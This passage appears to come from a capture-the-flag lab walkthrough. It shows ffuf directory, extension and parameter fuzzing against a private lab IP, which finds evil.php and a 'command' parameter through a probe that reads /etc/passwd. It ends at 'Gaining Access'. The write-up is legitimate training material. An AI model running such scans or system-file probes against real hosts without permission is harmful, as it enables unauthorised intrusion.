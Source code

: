 ```bash
ffuf -u http://192.168.211.212/FUZZ -w /opt/wordlists/true.txt -mc all -fc 404
```

### Output:

```bash

secret      [Status: 301, Size: 319, Words: 20, Lines: 10,Duration: 302ms][0m]

```


### Website : 

Looks like, we have a directory called `secret` . Let's check it out .

It returns a blank page, let's fuzz for directories  within `secret`  :

```bash
ffuf -u http://192.168.211.212/secret/FUZZ -w /opt/wordlists/true.txt -mc all -fc 404
```

Nothing came back. Now, let's look for files with specific extensions under the `secret` folder :

```bash
 ffuf -u http://192.168.211.212/secret/FUZZ -w /opt/wordlists/true.txt -mc all -fc 404 -e txt,php,zip,bak
```

Here, i am fuzzing for files with extensions `.php, .bak, . txt, and .zip`

### Output:

```bash

evil.php       [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 219ms][0m]

```

`secret` contains a php file called `evil.php`. However, when we visit it, it returns nothing. Hmm.... What can we do here? Since this is php file, it may contain some `GET` or `POST ` parameters. Let's try to fuzz them using ffuf :

```bash
ffuf -u http://192.168.211.212/secret/evil.php?FUZZ=/etc/passwd -mc all -fs 0
```

## Gaining Access : 

### Output:

```bash

command  [Status: 200, Size: 1398, Words: 13, Lines: 27, Duration: 218ms][0m

```
